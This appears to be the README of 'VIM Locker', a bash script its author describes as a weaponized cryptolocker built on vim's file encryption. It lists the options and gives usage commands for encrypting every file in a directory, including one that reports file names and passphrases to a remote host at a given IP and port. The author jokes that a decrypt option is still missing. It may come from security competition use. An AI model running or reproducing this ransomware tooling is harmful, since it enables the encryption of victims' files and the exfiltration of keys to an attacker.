 # VIM Locker

Did you know vim can encrypt your files?... I didn't either! Once I found out, I knew I had weaponize it into a cryptolocker. So I did that.

TODO: 
* Test all options thoroughly.
* Test HOST option thorooghly.
* Probably spelling errors.
* Stuff.
* Oh, and a decrypt option would be nice, huh? :)

## Options

```
  -H <IP>	Host ip to send encrpytion information to.
  -P <PORT>	Host port to send encrpytion information to.
  -e <PASS>	Set passphrase for file ( one is generated by default ).
  -l <FILE>	Log application actions to a file ( off by default ).
  -z		Use zip ( not great ) style encryption.
  -b		Use vim's blowfish ( good ) encryption.
  -B		Use vim's blowfish2 ( most goodiest )encryption.
  -n		Generate a new passphrase for each file.
  -v		Display version.
  -s		Silent mode.
  -h		Display this menu. 
```
## Usage

I've built this tool to be very easy to use. Hopefully.

### Typical

Typical useage to be able to cryptolock the files in a directory:

```
$ bash vim_locker.sh -d directory
```

### Report to Host

If you want to report back to a host the files/passphrase, it's pretty simple:

```
$ bash vim_locker.sh -H 192.168.1.2 -P 80 -d directory
```

### Custom Passphrase

If you would like to set a custom passphrase instead of having one generated for you.

```
$ bash vim_locker.sh -d directory -e reallystrongpassword 
```

### Help

Program should default to a help menu when no flags are specified or called with the `-h` option.

```
$ bash vim_locker.sh -h 
```

## Credits
Kent 'picat' Gruber

#### Special Thanks

Wanted to give a shotout to [zmallen](https://github.com/zmallen) for some inspriation from his [LoLLocker](https://github.com/zmallen/lollocker). See you at ISTS this year? ;)
